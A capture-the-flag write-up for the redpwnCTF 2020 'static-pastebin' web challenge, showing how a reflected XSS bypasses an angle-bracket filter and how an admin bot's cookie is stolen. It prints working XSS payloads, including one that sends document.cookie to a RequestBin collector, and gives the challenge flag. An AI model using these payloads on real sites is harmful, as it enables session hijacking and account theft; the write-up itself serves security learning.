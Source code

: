 ```yaml
---
layout: post
title: "static-pastebin"
author: "shreyas-sriram"
---
```


# Challenge
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here. 

`https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin` (aadmin-bot)

Site: `static-pastebin.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<` and `>`
* This is one of the payloads that works<br/>
`><img src='x' onerror='alert(1)'>`
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
`><img src=x onerror=this.src='//<RequestBinURL>/?c='+document.cookie>`
* Copy the URL and submit to the admin-bot<br/>
URL  :  `https://static-pastebin.2020.redpwnc.tf/paste/#<Base64-payload>`
* View the logs on the **RequestBinURL** to obtain the flag<br/>
`flag{54n1t1z4t10n_k1nd4_h4rd}`